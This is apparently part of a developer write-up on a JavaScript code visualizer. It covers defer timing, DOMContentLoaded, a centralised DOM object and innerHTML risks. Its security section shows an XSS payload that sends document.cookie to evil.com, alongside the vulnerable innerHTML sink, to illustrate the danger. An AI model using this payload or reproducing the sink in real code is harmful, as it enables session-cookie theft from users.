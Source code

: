 **Example Timeline:**
```
t=0ms:  HTML parser starts
t=10ms: <script defer> found, download starts
t=50ms: Script downloaded (but doesn't execute yet)
t=100ms: HTML parser reaches <div id="codeEditor">
t=150ms: HTML parsing complete
t=151ms: ❌ visualizer.js executes - tries to find #codeEditor
t=152ms: ❌ Error! #codeEditor was just created, JS cache is stale
```

**Solution: DOMContentLoaded**
```javascript
document.addEventListener('DOMContentLoaded', function() {
    // ✅ Guaranteed all DOM elements exist
    // ✅ This is the gold standard for DOM-dependent code
});
```

#### Problem 2: Global Namespace Pollution
**Original Approach:**
```javascript
const codeEditor = document.getElementById('codeEditor');
const visualizeBtn = document.getElementById('visualizeBtn');
// ... 20+ global variables
```

**Problems:**
- Clutters global scope (collision risk)
- Makes testing difficult
- No clear ownership of variables

**Solution: Centralized DOM Object**
```javascript
let DOM = {}; // Single namespace

document.addEventListener('DOMContentLoaded', function() {
    DOM = {
        codeEditor: document.getElementById('codeEditor'),
        visualizeBtn: document.getElementById('visualizeBtn'),
        // ... all in one place
    };
});
```

**Benefits:**
- One object to rule them all
- Easy to validate (`if (!DOM.codeEditor) { /* handle */ }`)
- Clear ownership
- IDE autocomplete works better

#### Problem 3: Security Through innerHTML
**Attack Scenario:**
```javascript
// Malicious server response
const data = {
    visualization: {
        steps: [{
            title: '<img src=x onerror="fetch(\'https://evil.com?cookie=\'+document.cookie)">',
            description: 'Innocent text'
        }]
    }
};

// Vulnerable code
DOM.stepDescription.innerHTML = `<div>${step.title}</div>`;
// ❌ XSS executed! Cookie stolen!
```